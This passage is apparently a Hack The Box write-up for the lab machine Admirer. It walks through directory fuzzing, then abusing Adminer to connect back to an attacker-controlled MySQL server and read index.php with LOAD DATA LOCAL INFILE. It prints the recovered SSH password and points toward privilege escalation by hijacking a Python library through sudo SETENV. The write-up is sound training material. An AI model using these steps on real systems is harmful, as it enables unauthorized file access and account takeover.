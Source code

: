 I tried using a python script to connect to MySQL over proxychains, but the credentials we have up to this point don't work. Based on the name of the machine, and the MySQL service running, we can infer that adminer is being used on this machine. We'll add adminer to a small wordlist (/usr/share/seclists/Discovery/Web-Content/common.txt) along with our directories (/admin-dir and /utility-scripts) and run ffuf against the website.

We find that http://10.10.10.187/utility-scripts/adminer.php exists!

We don't have any valid credentials for this portal, but we can use a vulnerability disclosed for this version at https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool 

We'll first need to start our database and connect to it locally:

```
sudo service mysql start
sudo su
mysql -uroot
```

We now need to create a user to connect back with and give it permissions:

```
CREATE USER 'remote'@10.10.10.187 IDENTIFIED BY 'password';
GRANT ALL PRIVILEGES ON *.* TO 'remote'@'10.10.10.187';
FLUSH PRIVILEGES;
```

Now, we need to connect to this server from the adminer.php portal, and go to SQL command. Once we're at the prompt, we can enter the following, to see if the password in index.php has been updated. Replace 'items' with a valid table in your database:

```
LOAD DATA local infile '/var/www/html/index.php'
into table items
fields terminated by '\n'
```

Hit execute, and then run the following, replacing items with your chosen table:

```
select * from items
```

We see:

```
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
```

Looks like it has changed! Trying this with the "waldo" user allows us to connect over SSH!

**waldo:&<h5b~yK3F#{PaPB&dA}{H>**

If we run sudo -l, we can see that waldo can run the following command:

```
User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

Taking a look at that admin_tasks.sh file, we can see that option 6 calls backup.py. In backup.py, we see that make_archive is being imported from shutils. We can hijack this DLL to get root!

